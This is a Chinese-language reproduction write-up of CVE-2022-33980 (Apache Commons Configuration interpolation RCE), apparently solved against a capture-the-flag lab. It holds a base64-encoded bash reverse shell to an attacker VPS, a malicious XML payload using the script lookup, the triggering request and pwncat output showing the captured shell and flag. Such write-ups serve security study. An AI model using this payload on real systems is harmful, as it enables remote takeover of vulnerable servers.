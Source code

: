 # CVE-2022-33980

:::info

Tags

- Apache Commons Configuration 远程命令执行漏洞

官方数据库记录

> Apache Commons Configuration 执行变量插值，允许动态评估和扩展属性。
>
> 插值的标准格式是 “$\{prefix:name\}”，其中 “prefix” 用于定位执行插值的 org.apache.commons.configuration2.interpol.Lookup 实例。
>
> 从版本 2.4 开始一直到 2.7，默认 Lookup 实例集包含可能导致任意代码执行或与远程服务器联系的插值器。
>
> 这些查找是：
>
> - “script” - 使用 JVM 脚本执行引擎 (javax.script) 执行表达式
> - “dns” - 解析 dns 记录
> - “url” - 从 url 加载值，包括从远程服务器
>
> 使用插值默认值的应用程序如果使用不受信任的配置值，受影响的版本可能容易受到远程代码执行或无意中与远程服务器的联系。
>
> 建议用户升级到 Apache Commons Configuration 2.8.0，该版本默认禁用有问题的插值器。

:::

参考 [一些 cve 的复现 - 小黑的笔记](https://www.supersmallblack.cn/CVE%E5%A4%8D%E7%8E%B0.html)

原始的恶意指令为

```plaintext
/bin/sh -i >& /dev/tcp/139.*.*.*/9999 0>&1
```

经过 Base64 编码后得到

```plaintext
L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMzkuOS40LjU2Lzk5OTkgMD4mMQ==
```

在 vps 上构造恶意 xml

```xml
<?xml version="1.0" encoding="ISO-8859-1" ?>
<configuration>
        <path>${script:js:java.lang.Runtime.getRuntime().exec("bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMzkuOS40LjU2Lzk5OTkgMD4mMQ==}|{base64,-d}|{bash,-i}")}</path>
</configuration>
```

启动临时 http 服务器

```plaintext
root@jmt-projekt:~# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

然后访问服务

```plaintext
http://eci-2ze440yv0x20kqyxglfa.cloudeci1.ichunqiu.com/Url?url=http://139.*.*.*:8080/CVE-2022-33980.xml&data=path
```

即可收到反连的 shell

```shell
root@jmt-projekt:~# pwncat-cs -lp 9999
[17:18:30] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[17:21:09] received connection from 39.106.20.178:29507                                                                                                                                               bind.py:84
[17:21:10] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                                                                                                                    manager.py:957
[17:21:11] 39.106.20.178:29507: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) root@engine-2:/opt/app# cat /flag
flag{296b02e5-4fda-4031-a89f-ce813b77af1b}
```
